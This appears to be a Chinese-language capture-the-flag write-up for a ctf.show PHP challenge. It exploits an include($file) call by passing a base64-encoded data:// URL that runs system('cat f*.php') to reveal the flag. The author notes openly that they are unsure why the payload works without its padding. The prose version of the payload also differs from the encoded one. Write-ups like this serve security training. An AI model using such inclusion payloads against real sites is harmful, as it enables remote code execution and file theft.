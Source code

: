 ```php
    include($file);
}else{
    highlight_file(__FILE__);
}
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

可以看到过滤了php的协议，但是没有过滤=，所以我们用data://伪协议直接传递php代码，然后执行

所以我们写入的为\<?php cat f\*.php?>，并且因为php被过滤了，所以我们需要用base64加密的那一句。

```url
http://597fa6fc-ea54-4078-b972-0c0e6295813d.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZioucGhwIik7Pz4
```

我相信肯定有小伙伴和我之前写一样，最后有个等号，然后出来一个error，因为这个题过滤了等号，所以要把等号删掉（其实这个地方我不是很理解，我删掉了，base64还能解码成功吗）后面想到每三个转化为四个，也许能执行？，我不知道，这个有小伙伴知道吗。

就这样按照他的写吧

然后查看源码，发现flag。

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
